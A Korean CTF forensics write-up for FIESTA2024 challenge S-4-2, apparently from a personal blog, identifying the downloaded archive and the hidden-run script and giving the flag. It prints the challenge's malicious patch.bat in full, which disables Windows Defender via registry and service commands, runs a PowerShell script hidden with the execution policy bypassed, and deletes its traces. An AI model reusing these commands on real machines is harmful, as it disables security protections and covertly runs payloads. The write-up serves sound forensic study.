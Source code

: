 ```yaml
---
layout: post
title: 'FIESTA2024 S-4-2 풀이'
summary: 재밌는 포렌식2
author: TouBVa
date: '2025-01-29 00:00:01 +09'
category: ['forensic']
thumbnail: /assets/img/posts/2025-01-29-FIESTA2024-S-4-2/image.png
keywords: 포렌식, CTF
usemathjax: true
permalink: /blog/forensic/2025-01-29-FIESTA2024-S-4-2
---
```


* TOC
{:toc}


<br>

1. [FIESTA2024 S-4-1](https://toubva.github.io/blog/forensic/2025-01-29-FIESTA2024-S-4-1)
2. [FIESTA2024 S-4-2](https://toubva.github.io/blog/forensic/2025-01-29-FIESTA2024-S-4-2)
3. [FIESTA2024 S-4-3](https://toubva.github.io/blog/forensic/2025-01-29-FIESTA2024-S-4-3)
{: .notice}

<br>

> **문제**
> 
> 
> 피해자가 다운로드 받은 파일명과 hidden 형식으로 실행된 파일은?
> (flag 형식 : 다운받은 파일-실행된 파일)
> 

<br>

내가 실력이 부족해서 첫번째 문제를 못 푼거고

그래서 뒤 문제도 다 못푼 건 맞는데

아니 생각하면 생각할수록 (실체없이) 억울하네

진짜로 1번 문제 정답 빼고 털 수 있는 건 다 털어서 더 억울함

박탈감….아아…

<br>

이건 ‘피해자가’ 다운로드 받은 파일명과 그 파일을 실행함으로써 hidden 형식으로 실행된 파일을 묻는 것이며, 따라서 (시나리오의 설명을 참고하면) 어떤 메일을 열어서 무엇이 실행되었는지 찾아야 하는 문제로 보인다.

그리고 그거 이미 S-4-1에서 풀었다.

<br>

![/assets/img/posts/2025-01-29-FIESTA2024-S-4-2/image.png](/assets/img/posts/2025-01-29-FIESTA2024-S-4-2/7ca383b9-13a9-41e0-9991-844913e93b3b.png){: width="80%" height="80%"}

<br>

피해자는 `patch_guide.zip` 파일을 다운받았다.

해당 파일 내부에는 아래와 같은 파일이 있었다.

<br>

![/assets/img/posts/2025-01-29-FIESTA2024-S-4-2/image.png](/assets/img/posts/2025-01-29-FIESTA2024-S-4-2/image.png){: width="100%" height="100%"}

<br>

patch.bat 파일의 내용은 아래와 같았다.

<br>

```powershell
@echo off
net session >nul 2>&1
if %errorLevel% neq 0 (
    echo This script requires administrative privileges. Please run it as an administrator.
    pause
    exit /b
)

reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableRealtimeMonitoring /t REG_DWORD /d 1 /f

cls
echo Patch Loading...
sc stop WinDefend
cls
echo Patch Loading.........
sc config WinDefend start= disabled
cls
echo Loading...............
powershell -Command "Get-MpPreference | Select-Object -Property DisableRealtimeMonitoring,DisableAntiSpyware"
echo Patch Loading.....................

cd %~dp0
PowerShell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -File "%~dp0powershell.ps1"

set "downloadPath=%USERPROFILE%\Downloads"
if exist "%downloadPath%\patch_guide.zip" del "%downloadPath%\patch_guide.zip"
if exist "%downloadPath%\patch_guide" rd /s /q "%downloadPath%\patch_guide"

```

<br>

맨 밑에 Hidden 형식으로 `powershell.ps1`이 실행된 게 보인다.

<br>

따라서 플래그는 `FIESTA{patch_guide.zip-powershell.ps1}`

<br>

---

<br>

1. [FIESTA2024 S-4-1](https://toubva.github.io/blog/forensic/2025-01-29-FIESTA2024-S-4-1)
2. [FIESTA2024 S-4-2](https://toubva.github.io/blog/forensic/2025-01-29-FIESTA2024-S-4-2)
3. [FIESTA2024 S-4-3](https://toubva.github.io/blog/forensic/2025-01-29-FIESTA2024-S-4-3)
{: .notice}

<br>